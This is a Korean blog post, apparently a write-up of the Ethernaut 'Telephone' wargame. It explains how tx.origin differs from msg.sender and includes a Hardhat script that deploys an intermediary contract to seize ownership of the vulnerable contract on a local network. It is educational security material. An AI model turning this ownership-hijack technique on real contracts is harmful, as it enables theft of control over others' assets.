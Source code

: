 +++
title = "Telephone"
date = "2023-08-21"
+++

---

> My Solutions: [github](https://github.com/c0np4nn4/EtherStudy/tree/main/ethernaut_solution)

---

# TL;DR
> `tx.origin` 과 `msg.sender`의 차이를 묻는 문제입니다. 

<center>
<img alt="main image" src="https://images.unsplash.com/photo-1614688395919-31228976e03c?ixlib=rb-4.0.3&ixid=M3wxMjA3fDB8MHxwaG90by1wYWdlfHx8fGVufDB8fHx8fA%3D%3D&auto=format&fit=crop&w=689&q=80" />
</center>

---

# Introduction
스마트 컨트랙트를 작성할 때 많은 부분들은 직관적으로 이해할 수 있는 수준이며, 예상대로 동작하게 됩니다.
하지만, 잘못 이해하고 사용하면 바로 취약점으로 연결되는 요소들도 존재합니다.
이번 문제인 `Telephone` 컨트랙트는 그러한 요소들 중 하나인 `msg.sender`와 `tx.origin`의 차이를 다룹니다.

---

# Problem Detail
## Goal
우선 문제 목표를 확인하기 위해 `TelephoneFactory` 컨트랙트의 `validateInstance()` 함수를 살펴보면 아래와 같습니다.

<center>
<img alt="validateInstance" src="../../ethernaut_img/4_telephone_1.png" />
</center>

`owner`를 변경하면 됨을 확인할 수 있습니다.

## Contract
스마트 컨트랙트를 살펴보면 아래와 같습니다.

<center>
<img alt="telephone.sol" src="../../ethernaut_img/4_telephone_2.png" />
</center>

컨트랙트를 배포할 때, `owner`는 `msg.sender`가 됩니다.
함수 `changeOwner()`는 인자로 `_owner`를 받고, 만약 `tx.origin != msg.sender`라면 인자로 받은 값을 새로운 `owner`로 바꿉니다.


---

# Exploit
본격적으로 `exploit`을 진행하기 전에 `tx.origin`과 `msg.sender`에 관한 내용을 정리하고 넘어가도록 하겠습니다.

## `tx.origin`, `msg.sender`
얼핏 보면, 트랜잭션을 보내는 주체와 "메세지"를 보내는 주체를 나눈 이유가 없어 보입니다.
하지만, [Solidity Docs](https://docs.soliditylang.org/en/v0.8.17/units-and-global-variables.html#block-and-transaction-properties)에 따르면, 아래와 같이 그 차이를 정리할 수 있습니다.

> - `tx.origin`
>     - **Full Call Chain**에서 처음으로 트랜잭션을 보낸 주체
> - `msg.sender`
>     - **Current Call** 에 대한 메세지를 보낸 주체

보다 직관적인 이해를 위해 다이어그램과 함께 설명을 첨가하겠습니다.

(추가)

## Strategy
따라서, `Telephone` 컨트랙트를 호출하는 `TelephoneCaller`라는 이름의 컨트랙트를 하나 더 배포하여 `tx.origin != msg.sender`가 되도록 **Call Chain** 을 만들어주면 됩니다.

## Code
아래는 `Hardhat`을 이용하여 실행한 `telephone.js` 입니다.
코드 실행 환경은 [레포](https://github.com/c0np4nn4/etherstudy)를 확인해주시기 바랍니다.

```js
const { ethers } = require('hardhat');

async function main() {
  const [owner, player] = await ethers.getSigners();
  console.log("\n[0] original owner: ", owner.address);
  console.log("[0] player: ", player.address);

  console.log("\n[1] deploy TelephonFactory");
  const Factory = await ethers.getContractFactory("TelephoneFactory");
  const factory = await Factory.deploy();
  await factory.deployed();
  console.log("---- TelephoneFactory address: ", factory.address);

  console.log("\n[2] create a Telephon instance");
  const receipt = await factory.createInstance(player.address);
  const instance_address = (await receipt.wait()).events[0].args[0];
  const telephone = await ethers.getContractAt("Telephone", instance_address, owner);

  console.log("\n[3] deploy Caller");
  const Caller = await ethers.getContractFactory("TelephoneCaller");
  const caller = await Caller.connect(player).deploy();
  await caller.deployed();
  console.log("---- TelephoneCaller address: ", caller.address);

  console.log("\n[4] call attack()");
  await caller.connect(player).attack(telephone.address, player.address);

  console.log("\n[5] validate solved");
  const res = await factory.validateInstance(telephone.address, player.address);
  if (res == true) {
    console.log("[+] Done!");
  } else {
    console.log("[+] Fail...");
  }
}

main().catch((error) => {
  console.error(error);
  process.exitCode = 1;
});
```
## Result
실행 화면은 아래와 같습니다.

<center>
<img alt="result" src="../../ethernaut_img/4_telephone_3.png" />
</center>

앞서 살펴본대로, `TelephoneCaller`를 호출할 때는 `tx.origin`과 `msg.sender`의 값이 동일합니다.
하지만, *Call Chain* 이 생기면서 `Telephone`을 호출할 때는 `tx.origin`은 **그대로**있고, `msg.sender`만 `TelephoneCaller`의 주소로 변경됨을 확인할 수 있습니다.



---

# Conclusion
여러 스마트 컨트랙트를 연결하여 **Call Chain**을 구성하는 패턴은 자주 쓰일 것으로 보입니다.
이 때, `tx.origin`과 `msg.sender`의 개념을 정확히 이해하고 있어야 여러 logical error 의 발생을 막고 안전한 스마트 컨트랙트를 작성할 수 있습니다.
`Transaction` 은 서명이 필요하고 서명을 위해서는 `비밀키`를 갖고 있어야 한다는 점을 상기하면, `tx.origin`은 `EOA`의 정보를 계속 가지고 가고 `msg.sender`는 함수 호출 과정에서 필요한 직전 계정의 정보를 담고 있다고 이해할 수 있습니다.

<script src="https://utteranc.es/client.js"
        repo="c0np4nn4/utterance_repo"
        issue-term="pathname"
        label="utterances"
        theme="github-light"
        crossorigin="anonymous"
        async>
</script>

